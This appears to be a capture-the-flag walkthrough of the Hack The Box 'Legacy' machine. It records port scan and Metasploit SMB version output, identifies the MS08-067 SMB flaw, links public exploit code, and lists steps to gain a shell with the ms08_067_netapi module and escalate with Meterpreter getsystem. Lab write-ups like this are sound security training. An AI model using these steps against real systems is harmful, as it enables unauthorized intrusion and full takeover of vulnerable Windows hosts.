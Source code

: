 # recon
- port + version
```
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
```
- OS: Windows XP (Windows 2000 LAN Manager)
- 445 microsoft-ds  Windows XP microsoft-ds
  - [MS08-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)
  - [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250)
  - python exploit
    - https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
    - https://github.com/andyacer/ms08_067
    - [how to](https://ivanitlearning.wordpress.com/2019/03/03/ms08-067-exploitation-pass-the-hash-without-metasploit/)

```
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
```

# foot hold + root
- use `exploit/windows/smb/ms08_067_netapi`. set rhost, lhost and run.
- to get root: meterpreter getsystem.
